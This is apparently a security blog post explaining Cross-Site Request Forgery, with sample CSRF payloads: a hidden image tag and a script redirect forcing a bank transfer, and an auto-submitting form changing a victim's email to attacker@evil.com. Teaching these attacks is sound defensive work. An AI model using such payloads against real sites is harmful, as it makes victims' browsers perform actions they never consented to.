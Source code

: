 ```yaml
---
layout: post
title: Cross-Site Request Forgery (CSRF)
date: 2025-04-10 16:43 +0300
categories: [Web Security, Client-Side Attacks]
tags: [client-side, csrf]
---
```


## Introduction

Cross-Site Request Forgery (CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions they did not intend to perform. It exploits the trust a web application has in a user's browser, forcing an authenticated user to send a state-changing request to a web application without their knowledge or consent.

## How CSRF Works

1. **User Authentication**: Victim logs into a vulnerable website (e.g., bank.com)
2. **Session Creation**: The website sets authentication cookies in the victim's browser
3. **Malicious Trap**: Victim visits an attacker-controlled site or opens a malicious email
4. **Forced Request**: The attacker's page makes the victim's browser send a request to the vulnerable website
5. **Request Processing**: The website processes the request with the victim's authentication cookies
6. **Unauthorized Action**: The action is executed on behalf of the victim without their consent

## Basic CSRF Exploitation Examples

### GET-based CSRF Attack

```html
<!-- Example: Transfer money via GET request -->
<img src="https://bank.com/transfer?to=attacker&amount=1000" width="0" height="0">

<!-- Auto-submitting via JavaScript -->
<script>
    window.location = "https://bank.com/transfer?to=attacker&amount=1000";
</script>
```

### POST-based CSRF Attack

```html
<!-- Example: Auto-submitting form to change email -->
<body onload="document.csrf_form.submit()">
<form action="https://target.com/change_email" method="POST" name="csrf_form">
    <input type="hidden" name="email" value="attacker@evil.com">
</form>
</body>
```
